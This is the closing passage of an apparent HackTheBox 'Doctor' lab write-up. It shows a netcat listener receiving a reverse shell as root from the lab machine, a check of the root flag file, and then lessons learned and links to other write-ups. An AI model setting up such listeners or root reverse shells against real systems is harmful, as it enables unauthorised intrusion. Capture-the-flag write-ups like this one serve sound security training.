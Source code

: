 Made sure to have a netcat listener, and got a connection back as the `root` user.

```none
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.209] 57702
bash: cannot set terminal process group (1136): Inappropriate ioctl for device
bash: no job control in this shell
root@doctor:/# id
id
uid=0(root) gid=0(root) groups=0(root)
root@doctor:/# wc -c /root/root.txt
wc -c /root/root.txt
33 /root/root.txt
```

Done!

## Lessons Learned

- Take time to read. I almost missed `doctors.htb` and I read it as `doctor.htb`
- Been a while since I didn't do a decent enumeration on a machine, but made a few mistakes on this machine. Enumerate!

## Useful Resources

- [HackTheBox - Doctor by ippsec](https://www.youtube.com/watch?v=JcOR9krOPFY)
- [HTB: Doctor by 0xdf](https://0xdf.gitlab.io/2021/02/06/htb-doctor.html)
